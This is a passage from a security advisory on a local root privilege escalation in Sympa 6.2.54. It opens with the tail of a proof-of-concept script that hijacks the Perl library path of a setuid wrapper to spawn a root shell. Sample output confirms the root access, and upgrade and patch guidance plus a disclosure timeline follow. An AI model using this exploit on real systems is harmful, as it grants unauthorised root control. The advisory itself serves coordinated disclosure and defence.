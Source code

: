 ```
    if ($root == 1)
    {
        print "[+] Running as root, popping shell.\n";
        exec("/bin/sh");
    }
    else
    {
        print "[!] Not running as root/sympa, exploit failed.\n";
    }
}
EOL
export PERLLIB=$EXPLOITDIR
export PERL5LIB=$EXPLOITDIR
echo "[+] Triggering exploit."
/usr/libexec/sympa/wwsympa-wrapper.fcgi
```

Output:

```
[user@localhost exploit]$ bash poc.sh 
[+] SYMPA on Fedora/CentOS/RHEL root privilege escalation exploit - n.chatelain -at- xyz.com
[~] Exploit setup.
[+] Triggering exploit.
[+] Running as service user, elevating privileges as root...
[+] Running as root, popping shell.
sh-5.0# whoami
root
```


## Affected versions

* Sympa 6.2.54

## Solution

Sympa suggests to:

* Upgrade to version 6.2.56

    * Source distribution: sympa-6.2.56.tar.gz
    * Binary distributions: Check release information by distributors.

Or, if you have installed Sympa using earlier version of source distribution,

* Apply a patch to the source, recompile wrappers and renistall them:

    * Patch for sympa-6.2 or later: sympa-6.2.54-sa-2020-002.patch



## Timeline (dd/mm/yyyy)

* 2020-03-12 Initial discovery
* 2020-03-24 Contacting the developpers
* 2020-03-24 Aknownledgment from the Sympa security team
* 2020-04-03 Feedback with a proposed patch, but not to be applied to all SUID binaries.
* 2020-04-16 We confirm that the patch seems efficient, but it would be better to apply it on all binaries.
* 2020-04-24 Response: setuid-sympa wrappers are deprecated, so they should not be used in the first place.
* 2020-05-04 Follow-up e-mail about a release date for the patch and that our disclosure target is on 2020-05-13.
* 2020-05-18 No reply, last follow-up.
* 2020-05-21 Reply with draft advisory.
* 2020-05-25 Disclosure with provided solutions and workarounds.
